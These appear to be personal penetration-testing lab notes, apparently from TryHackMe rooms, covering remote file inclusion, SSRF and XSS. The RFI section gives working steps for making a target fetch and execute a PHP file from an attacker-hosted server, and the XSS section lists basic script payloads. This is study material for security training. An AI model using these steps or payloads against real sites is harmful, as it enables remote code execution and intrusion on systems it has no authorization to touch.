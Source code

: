 # Remote File Inclusion

host a web server using
`python -m http.server 9000`
create a file in the same directory containing:
```php
<?php
print exec('hostname');
?>
```
from the target URL enter 
`http://10.10.192.101/playground.php?file=http://10.4.3.201:9000/host.txt
This will execute the commands stored in hosts.txt

# SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

**When a full URL is used in a parameter in the address bar:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/956e1914b116cbc9e564e3bb3d9ab50a.png) 

**A hidden field in a form:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/237696fc8e405d25d4fc7bbcc67919f0.png)  

**A partial URL such as just the hostname:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f3c387849e91a4f15a7b59ff7324be75.png)

**Or perhaps only the path of the URL:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3fd583950617f7a3713a107fcb4cfa49.png)



---

# XSS 

```HTML
<iframe src="javascript:alert(`xss`)"> 

<script>alert('XSS');</script>

```
	

## DOM  Based XSS 

uses the HTML environment to execute malicious javascript. 
This type of attack commonly uses the script HTML tag
